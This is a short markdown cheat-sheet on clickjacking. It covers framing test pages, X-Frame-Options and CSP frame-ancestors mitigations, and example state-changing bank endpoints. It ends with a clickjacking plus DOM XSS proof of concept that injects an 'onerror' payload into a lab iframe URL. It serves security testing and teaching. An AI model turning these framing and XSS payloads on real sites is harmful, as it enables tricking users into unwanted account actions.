 ### Simple Clickjacking Vulnerability

Below is an example of HTML code demonstrating a simple clickjacking vulnerability:

```html
<html>
<h3>This is my web page.</h3>
<iframe src="https://www.example.com" width="500" height="500"></iframe>
<p>If this window is not blank, the iframe source URL can be framed!</p>
</html>
```

If response headers like `X-Frame-Options: DENY` or `X-Frame-Options: SAMEORIGIN` are present, clickjacking cannot be exploited.

### CSP Mitigation for UI Redressing

Content Security Policy (CSP) can be used to mitigate UI redressing attacks. Examples of CSP policies that can be used to prevent clickjacking are:

- `Content-Security-Policy: frame-ancestors 'none';`
- `Content-Security-Policy: frame-ancestors 'self';`

### Identifying State-Changing Requests

Look for state-changing requests in the context of a clickjacking vulnerability. Examples of state-changing requests include:

- Changing the password: `bank.example.com/password_change`
- Transferring balance: `bank.example.com/transfer_money`
- Unlinking an external account: `bank.example.com/unlink`

### Clickjacking Code Example

Here is an example of HTML code that demonstrates clickjacking:

```html
<html>
<head>
    <title>Clickjack test page</title>
</head>
<body>
    <p>Web page is vulnerable to clickjacking if the iframe is populated with the target page!</p>
    <iframe src="URL_OF_TARGET_PAGE" width="500" height="500"></iframe>
</body>
</html>
```

### Clickjacking via DOM XSS Proof of Concept

An example of clickjacking via DOM XSS is demonstrated in the code below:

```html
<style>
    iframe {
        position: relative;
        width: $width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position: absolute;
        top: $top_value;
        left: $side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

Please note that nowadays, clickjacking vulnerabilities are not typically accepted by Bug Bounty platforms, but they can still be used in combination with other vulnerabilities to create a more significant impact.

